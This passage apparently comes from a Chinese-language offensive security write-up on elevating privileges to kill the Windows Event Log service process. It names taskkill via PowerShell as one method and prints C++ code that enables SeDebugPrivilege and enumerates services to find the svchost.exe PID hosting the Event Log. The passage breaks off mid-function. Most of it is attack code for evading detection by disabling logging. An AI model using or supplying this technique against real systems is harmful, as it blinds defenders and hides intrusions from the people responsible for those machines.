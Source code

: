 ```
	return PID;
}

int main(int argc, char *argv[])
{
	DWORD pid = getpid();
	return 0;
}
```

## 0x04 提权关闭Eventlog进程
---

### 1、通过powershell实现

执行cmd命令taskkill即可

### 2、通过c++实现

c++的代码需要提升权限才能结束进程svchost.exe

```
#include <windows.h>

#pragma comment(lib,"Advapi32.lib") 

BOOL EnableDebugPrivilege(BOOL fEnable)
{
	BOOL fOk = FALSE;
	HANDLE hToken;

	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp;
		tp.PrivilegeCount = 1;
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
		tp.Privileges[0].Attributes = fEnable ? SE_PRIVILEGE_ENABLED : 0;
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
		fOk = (GetLastError() == ERROR_SUCCESS);
		CloseHandle(hToken);
	}
	return(fOk);
}

DWORD  getpid()
{
	DWORD PID = 0;
	SC_HANDLE scHandle = OpenSCManager(NULL, NULL, SC_MANAGER_ENUMERATE_SERVICE);
	if (scHandle == NULL)
	{
		printf("[!]OpenSCManager fail(%ld)", GetLastError());
	}
	else
	{
		SC_ENUM_TYPE infoLevel = SC_ENUM_PROCESS_INFO;
		DWORD dwServiceType = SERVICE_WIN32;
		DWORD dwServiceState = SERVICE_STATE_ALL;
		LPBYTE lpServices = NULL;
		DWORD cbBufSize = 0;
		DWORD pcbBytesNeeded;
		DWORD servicesReturned;
		LPDWORD lpResumeHandle = NULL;
		LPCSTR pszGroupName = NULL;
```